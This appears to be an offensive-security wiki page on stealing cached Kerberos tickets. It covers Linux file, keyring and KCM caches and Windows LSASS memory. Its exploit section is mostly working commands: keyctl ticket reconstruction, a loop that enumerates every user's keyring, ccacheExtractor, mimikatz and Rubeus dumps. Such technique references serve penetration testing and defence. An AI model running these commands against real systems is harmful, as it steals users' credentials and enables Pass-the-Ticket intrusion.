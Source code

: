 ## Theory
Kerberos tickets can be cached on systems to allow for faster authentication without requiring users to re-enter credentials.
### Storage method
=== "UNIX-like"
    On Linux and other UNIX-like systems, tickets can be stored in 3 different ways:

    | **Storage** | **Description**                                                                                       |
    |-------------|-------------------------------------------------------------------------------------------------------|
    | `FILE`      | Stores tickets in files, typically under `/tmp` directory, in the format `krb5cc_%{uid}`             |
    | `KEYRING`   | Stores tickets in a dedicated kernel keyring space, only accessible to the ticket owner              |
    | `KCM`       | Stores tickets in an LDAP-like database, typically at `/var/lib/sss/secrets/secrets.ldb` (default when using SSSD) |

    The storage method is configured via the `default_ccache_name` parameter in `/etc/krb5.conf`, which is readable by all users.
    !!! note
        This configuration can be overridden by files in `/etc/krb5.conf.d/`. When using SSSD, the value is typically set in `/etc/krb5.conf.d/kcm_default_ccache`
=== "Windows"
    On Windows systems, Kerberos tickets are stored in memory by the Local Security Authority Subsystem Service (LSASS) process.
## Exploit
### From UNIX
=== "File Storage"
    Tickets are stored as files in the configured directory (default: `/tmp`). These files can be directly used for `Pass-the-Ticket` attacks.
=== "KEYRING Storage"
    !!! note
        While root cannot directly read other users' keyring content, they can still access tickets by using **su - $user**
    
    The keyctl utility (commonly pre-installed) can be used to read keyring content:
    ```bash
    # Get persistent keyring address
    keyctl get_persistent @u

    # Show keyring content
    keyctl show 30711432
    ```
    It will display the content of the keyring in a readable format.
    ```bash
    Keyring
        30711432 ---lswrv      0 65534  keyring: _persistent.0
        127492740 --alswrv      0     0   \_ keyring: _krb
        556713767 --alswrv      0     0       \_ user: krb_ccache:primary
        1002684101 --alswrv      0     0       \_ keyring: 0
        110355059 --alswrv      0     0           \_ user: __krb5_princ__
        575224320 --als-rv      0     0           \_ big_key: krb5_ccache_conf_data/pa_type/krbtgt\/LAB.LOCAL\@LAB.LOCAL@X-CACHECONF:
        161110247 --als-rv      0     0           \_ big_key: krbtgt/LAB.LOCAL@LAB.LOCAL
        760223933 --alswrv      0     0           \_ user: __krb5_time_offsets__
    ```
    To reconstruct a Kerberos ticket:

    1. The __krb5_princ__ value (in the example above, it's 110355059)
    2. The service key value (the big_key value. In the example above, it's 161110247)
    ```bash
    # Get principal value
    keyctl print $PRINCIPALS_ADDRESS

    # Get service key
    keyctl print $KEY_ADDRESS

    The result will be an hexadecimal string, that can be appended to the ticket header to reconstruct the full ticket.

    # Reconstruct ticket
    HEADER='0504000c00010008ffffffff00000000'
    PRINCIPALS=$(keyctl print $PRINCIPALS_ADDRESS | awk -F : '{print $3}')
    KEY=$(keyctl print $KEY_ADDRESS | awk -F : '{print $3}')
    ticket=$HEADER$PRINCIPALS$KEY

    # Save to file
    echo "$ticket" | xxd -r -p > ticket.ccache
    ```
    !!! note
        [CCacheExtractor](https://github.com/Hakumarachi/ccacheExtractor) can automate this process:
        ```bash
        python3 ccacheExtractor.py keyring --principals $PRINCIPALS --key $KEY
        ```
    
    A domain joined machine can cache lots of tickets from different users. It would be tedious to list them all manually. To list all available tickets, the `/proc/key-users` file can be used. It's readable by all users and contains the list of all users with persistent keyrings.
    ```bash
    # List all tickets
    for uid in $(awk '{print$1}' /proc/key-users | tr -d :); do
        res=$(KRB5CCNAME=KEYRING:persistent:$uid klist 2>&1)
        if [ $? -eq 0 ]; then
            echo -e "\n=== UID $uid ==="
            echo "$res"
        fi
    done

    # Use a specific ticket
    KRB5CCNAME=KEYRING:persistent:$UID
    ```
    !!! note
        [keyringCCacheDumper](https://github.com/Hakumarachi/keyringCCacheDumper) can automatically extract all tickets.
=== "KCM Storage"
    KCM stores tickets in an LDB database file, typically only readable by root. [CCacheExtractor](https://github.com/Hakumarachi/ccacheExtractor) can be used to extract tickets:
    ```bash
    # Extract all tickets from LDB database
    python3 ccacheExtractor.py kcm ./secrets.ldb
    ```
    Extracted tickets can then be used with Pass-the-cache or Pass-the-tickets depending on the ticket type.
### From Windows
On Windows, Kerberos tickets (TGT and TGS) are stored and managed internally by the LSASS process and are not saved as files (unlike on Linux). However, tools like Mimikatz or Rubeus can extract and parse these tickets from memory.

- with mimikatz
```bash
mimikatz # sekurlsa::tickets
```
- with Rubeus
    Ticket can be dumped and saved to `.kirbi` files (MIT-compatile Kerberos tikcet format)
```bash
Rubeus.exe dump /luid:0x3e7 /nowrap /export
```
!!! note
    `.kirbi` is the Windows-compatible file format for Kerberos tickets (same as MIT’s `.ccache`, but different encoding). It can be used with tools like:

    - Rubeus (asktgt, s4u, ptt)

    - Impacket (psexec.py, getTGT.py)

    - Mimikatz (kerberos::ptt ticket.kirbi)
    
    In hackthebox machines or other platform like OSCP, some machines may cache ticket in format `.kirbi` or `.ccache` for hint